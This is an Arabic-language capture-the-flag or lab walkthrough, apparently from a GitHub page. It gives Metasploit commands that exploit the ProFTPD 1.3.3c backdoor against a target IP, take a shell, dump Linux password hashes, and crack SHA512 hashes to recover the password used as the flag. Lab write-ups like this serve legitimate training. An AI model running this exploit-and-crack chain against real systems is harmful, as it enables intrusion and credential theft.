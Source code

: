 الان نفتح الفرييم وورك  
[msfconsole]  
[use exploit/unix/ftp/proftpd_133c_backdoor]  
[show options]  
[set RHOSTS 192.229.31.3]  
[exploit] or [run]  

الان عطانا الشيل نخليه في الخلفيه بالضغط على او نكتب  
[CTRL + Z] or [bg]

الان  نروح لموديل اخر الي بيسوي لنا dump  
[use post/linux/gather/hashdump]  
[set SESSION 1] 1 يعني رقم السشن تقدر تطلعها عن طريق كتباتة sessions  
[exploit] or [run]  

الان سوا لنا dump وحفظه لنا بقاعدة البيانات الي شغالناها  

الان نبي نسوي لها كراك عشان نقدر نقراها الان وهي كا hash غير قابل للقرائة ابدا  

فبنستخدم الموديول التالي عشان نسوي له كراك  
[use auxiliary/analyze/crack_linux]  
[set SHA512 true] SHA512 هذي تشير الى نوع التشفير المستخدم او الي حابين نفكه  
[exploit] or [run]  

وزي مانشوف الان عطانا الباسورد والفلاق المطلوب هو الباسورد  

---

اعتذر على الاطاله  

@s4cript | @cyberhub | @0xNawaF1
